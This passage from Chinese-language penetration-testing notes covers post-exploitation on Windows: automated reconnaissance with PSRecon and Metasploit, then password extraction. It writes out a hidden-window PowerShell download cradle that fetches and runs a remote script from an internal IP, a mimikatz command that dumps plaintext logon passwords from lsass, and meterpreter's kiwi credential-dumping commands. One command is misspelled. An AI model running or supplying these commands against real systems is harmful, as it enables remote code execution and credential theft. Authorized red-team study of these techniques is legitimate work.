 ```
find / -name *.tar.gz
fing / -name *.ZIP
```

# 3. 自动化信息收集

## 3.1 HIGS.bat+psloglist.exe

- `HIGS.bat`: 自动搜集系统本地信息
- `psloglist.exe`: 拉取系统本地日志

## 3.2 PSRecon

[项目地址](https://github.com/gfoss/PSRecon)

使用方式:

- 本地加载

```
powershell -exec bypass -file psrecon.ps1
```

- 远程加载

```
powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.135.100/1.ps1')"
```

## 3.3 MSF

当目标主机上线 MSF 是, 使用 meterpreter 进行信息自动收集:

- `run scraper`: 比较全面的系统信息,比如注册表,安装软件,网络环境等信息。
- `run winenum`: 收集一些当前系统,用户组相关的信息。

# 4. 密码提取

## 4.1 mimikatz

[项目地址](https://github.com/gentilkiwi/mimikatz)

- 从 lsass 中获取系统用户明文密码

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
```

- MSF 加载 mimikatz

```
load kiwi
creds_all
```
